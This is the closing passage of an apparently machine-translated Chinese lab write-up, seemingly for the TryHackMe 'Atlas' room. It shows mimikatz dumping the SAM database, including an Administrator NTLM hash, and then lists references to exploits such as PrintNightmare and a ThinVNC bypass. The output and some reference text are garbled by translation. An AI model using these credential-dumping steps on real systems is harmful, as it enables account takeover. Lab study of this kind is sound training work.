 * Process Token : {0;001f08ca} 1 F 2417912     GAIA\adm1n      S-1-5-21-1966530601-3185510712-10604624-1009    (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2465700     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

然后转储 SAM 数据库:

```
**mimikatz # lsadump::sam**
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624SAMKey : 6e708461100b4988991ce3b4d8b1784eRID  : 000001f4 (500)
User : Administrator
  Hash NTLM: c16444961f67af7eea7e420b65c8c3eb[... snip ...]**mimikatz #**
```

阿洛拉。

# 参考

Attrition.org(约 1998 年)。*技术奇迹:防火墙*。2022 年 4 月 22 日检索自:[https://attract . org/errata/charlatan/Carolyn _ meinel/www/tech-06 . html](https://attrition.org/errata/charlatan/carolyn_meinel/www/tech-06.html)

Chandel，R. (2019)。*通过 Windows 命令行程序获取反向外壳*。黑客文章。2022 年 4 月 24 日检索自:[https://www . hacking articles . in/get-reverse-shell-via-windows-one-liner/](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)

坎宁安博士和古德温博士(2015 年)。自私的时代:安·兰德、道德和金融危机。哈里·n·艾布拉姆斯。

Cybele，m .，Ricardi，g .和“Hugo”(未注明)。 *ThinVNC — Web 远程桌面*。SourceForge 仓库。2022 年 4 月 23 日检索自:[https://sourceforge.net/projects/thinvnc/](https://sourceforge.net/projects/thinvnc/)

德尔皮，B. (2021)。*2 . 2 . 0 2021 08 10–2 Windows 365 网页密码垃圾修复*。GitHub 仓库。2022 年 5 月 5 日检索自:[https://github . com/gentili kiwi/mimikatz/releases/tag/2 . 2 . 0-2021 08 10-2](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810-2)

哥伦比亚特区胡梅尔(2009 年)。*能通过 Hash* 为什么还要破解？SANS 研究所。2022 年 5 月 4 日检索自:【https://www.sans.org/white-papers/33219/ 

梁，h，陈，l，徐，s(2021)。*了解远程桌面协议(RDP)* 。微软文档。2022 年 4 月 22 日检索自:[https://docs . Microsoft . com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol)

Metasploit Unleashed(未标明)。*关于 Metasploit Meterpreter* 。进攻安全。2022 年 4 月 24 日检索自:[https://www . offensive-security . com/metasploit-unleashed/about-meter preter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

微软文档(2013)。*HTML 应用(HTAs)简介*。2022 年 4 月 24 日检索自:[https://docs . Microsoft . com/en-us/previous-versions/ms 536496(v = vs . 85)](https://docs.microsoft.com/en-us/previous-versions/ms536496(v=vs.85))

微软安全响应中心(2021)。 *Windows 后台打印程序远程代码执行漏洞*。2022 年 4 月 25 日检索自:[https://msrc . Microsoft . com/update-guide/vulnerability/CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)

米特 ATT 和 CK 框架(2017 年)。米米卡兹。2022 年 4 月 29 日检索自:[https://attack.mitre.org/software/S0002/](https://attack.mitre.org/software/S0002/)

《穆兰道尔》(2021a)。*图集*。TryHackMe。2022 年 5 月 5 日检索自:[https://tryhackme.com/room/atlas](https://tryhackme.com/room/atlas)

《穆兰多尔》(2021b)。*CVE-2019–17662*。GitHub 仓库。2022 年 4 月 23 日检索自:[https://github.com/MuirlandOracle/CVE-2019-17662](https://github.com/MuirlandOracle/CVE-2019-17662)

nmap(未标明)。 *Nmap:无网络映射器的安全扫描器*。2022 年 4 月 22 日检索自:[https://nmap.org/](https://nmap.org/)

Red Hat 客户门户网站(未标明)。 *TCP Wrappers 配置文件红帽企业版 Linux 6* 。2022 年 4 月 22 日检索自:[https://access . red hat . com/documentation/en-us/red _ hat _ enterprise _ Linux/6/html/security _ guide/Sect-security _ guide-TCP _ wrappers _ and _ xinetd-TCP _ wrappers _ configuration _ files](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-tcp_wrappers_and_xinetd-tcp_wrappers_configuration_files)

雷米纳(未注明日期)。*支持 RDP、SSH、SPICE、VNC 和 X2Go 协议的远程桌面客户端*。2022 年 4 月 23 日检索:[https://remmina.org/](https://remmina.org/)

斯图尔特和哈蒙德(2021)。*打印噩梦 LPE (PowerShell)* 。GitHub 仓库。2022 年 4 月 26 日检索自:[https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)

纽约州图马姆拉帕里市(2019 年)。 *ThinVNC 1.0b1 —认证旁路*。利用数据库。2022 年 4 月 23 日检索自:[https://www.exploit-db.com/exploits/47519](https://www.exploit-db.com/exploits/47519)